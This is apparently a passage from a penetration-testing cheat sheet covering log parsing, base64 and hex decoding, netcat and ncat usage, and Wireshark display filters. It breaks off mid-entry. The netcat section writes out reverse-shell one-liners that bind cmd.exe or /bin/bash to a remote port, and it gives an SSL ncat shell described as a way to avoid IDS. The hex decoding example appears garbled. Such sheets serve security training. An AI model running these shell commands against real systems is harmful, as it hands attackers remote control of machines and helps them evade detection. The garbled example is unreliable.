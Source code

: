     -   Collect all the IP Addresses from a log file and sort by
        frequency  
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`

-   Decoding using Kali

    -   Decode Base64 Encoded Values
       
        `echo "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`

    -   Decode Hexidecimal Encoded Values  
        `echo "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874 327231646434 717070756 5793437 347 3767879610a" | xxd -r -ps`

-   Netcat - Read and write TCP and UDP Packets

    -   Connect to a POP3 mail server  
        `nc -nv $ip 110`

    -   Listen on TCP/UDP port  
        `nc -nlvp 4444`

    -   Connect to a netcat port  
        `nc -nv $ip 4444`

    -   Send a file using netcat  
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

    -   Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`

    -   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc -nlvp 4444 -e cmd.exe`

    -   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`

-   Ncat - Netcat for Nmap project which provides more security avoid
    IDS

    -   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    -   Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`

-   Wireshark
    -   Show only SMTP (port 25) and ICMP traffic:
            `tcp.port eq 25 or icmp`
        
    -   Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:
        
        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`
        
    -   Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:
        
        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`
        
    -   Some commands are equal
        
        `ip.addr == 10.43.54.65`
         Equals
        